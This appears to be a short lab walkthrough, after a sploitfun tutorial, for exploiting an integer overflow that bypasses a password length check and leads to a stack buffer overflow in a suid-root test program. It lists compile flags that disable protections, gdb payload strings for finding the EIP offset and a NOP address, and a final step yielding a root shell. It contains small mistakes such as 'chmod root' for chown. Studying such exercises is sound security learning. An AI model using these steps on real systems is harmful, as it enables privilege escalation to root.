 Integer Overflow example:

https://sploitfun.wordpress.com/2015/06/23/integer-overflow/

This attack by-passes the password length check by integer overflow 
and then subsequently exploiting stack based buffer overlow.

This works by wrapping unsigned int lager than unsigned char when 
storing in unsigned char destination variable.

The same type of attack also works for underflows (reverse wrap).

1. Disable ALSR using common tool.
2. Compile program and set suid:
   * gcc -g -fno-stack-protector -z execstack -o vuln vuln.c
   * sudo chmod root vuln
   * sudo chgrp root vuln
   * sudo chmod +s vuln
3. Run gdb and test overflow using decimal number > max unsigned char
   * r vuln `python -c 'print "A"*261'` # eip should now be AAAA
4. When eip is gained, calc offset to ret
   * r vuln `python -c 'print "A"*24 + "B"*4 + "C"*233'` # eip should now be BBBB
   * Here, 24 was calculated by: 11 for passwd_buf, 1 for passwd_len, 4*3 for 
     alignment space, edi and ebp
5. Find suitable NOP address:
   * r vuln `python -c 'print "A"*24 + "B"*4 + "C"*100 + "D"*133'`
   * x/40x $esp # select a memeory location which is CCCC
6. Update exp.py script with NOP address
7. Run exploit:
   * python exp.py
   * Should have root shell, check id
